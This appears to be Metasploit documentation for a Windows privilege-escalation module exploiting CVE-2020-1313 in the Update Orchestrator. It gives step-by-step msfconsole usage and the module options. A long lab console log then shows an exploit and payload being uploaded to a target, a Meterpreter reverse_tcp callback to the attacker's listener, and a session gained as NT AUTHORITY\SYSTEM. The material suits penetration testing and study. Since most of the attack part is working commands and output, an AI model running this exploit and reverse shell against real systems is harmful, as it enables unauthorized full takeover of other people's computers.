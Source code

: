 ## Vulnerable Application

Windows 10 and Server x64 build versions above 17763  to 19041.

### Introduction

This module abuses CVE-2020-1313, a unchecked API call that allows a
regular user to schedule a job that will run as system.  The API call,
ScheduleWork, will create a task in the System Update Orchestrator
autoimatically scheduled to run at a time when the system is expected
to be idle.  The user cannot request or affect the scheduled time of
execution.  The scheduled job data is stored in
`HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate\\Orchestrator\\UScheduler\\x`
Where `x` is a numeric key assigned to the job.

## Verification Steps

  1. Start msfconsole
  2.  use exploit/multi/handler
  3. set payload <payload>
  4. set [r|l]host
  5. run (leave running)
  6. Start msfconsole
  7. use windows/local/cve_2020_1313_system_orchestrator
  8. set session <session>
  9. `set payload <payload_matching_above>
  10. set verbose true
  11. Verify The job is scheduled
  12. Leave everything running
  13. Go to bed
  14. Have a healthy Breakfast, maybe some coffee if you want
  15. verify you got a callback as SYSTEM

## Options

  **EXECUTE_DELAY**
  The number of seconds to sleep after uploading the expoloit and
  launching it.

  **EXPLOIT_NAME**
  The name of the exploit EXE as it will appear on target
  
  **EXPLOIT_TIMEOUT**
  The maximum time to wait for a response from the exploit binary.

  **PAYLOAD_NAME**
  The name of the payload EXE as it will appear on target

  **WRITABLE_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  This directory will require manual cleanup.

## Scenarios

### Tested on Windows10 x64 Release 1903

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 12 opened (192.168.135.197:4567 -> 192.168.132.134:49678) at 2020-09-21 19:05:44 -0500
sessions -i -1
[*] Starting interaction with 12...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 12...
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > show options

Module options (exploit/windows/local/cve_2020_1313_system_orchestrator):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          11               yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4568             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > set session 12
session => 12
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > run

[*] Build Number = 18362
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 12
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Uploading Payload to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[*] Running Exploit
[*] Exploit Output:
Obtaining reference to IUniversalOrchestrator
Scheduling work with id 47790
Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
[*] Cleaning up C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[+] Payload Scheduled for execution at 2020-09-22 08:53:47 -0500
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > 

[SECONDARY WINDOW FOR CALLBACK]
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -j
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444

msf6 exploit(multi/handler) > set lport 4568
lport => 4568
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.135.197:4568 
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4568

msf6 exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4568 -> 192.168.132.134:49681) at 2020-09-21 20:09:45 -0500
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-CL5L2IH  192.168.135.197:4568 -> 192.168.132.134:49681 (192.168.132.134)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
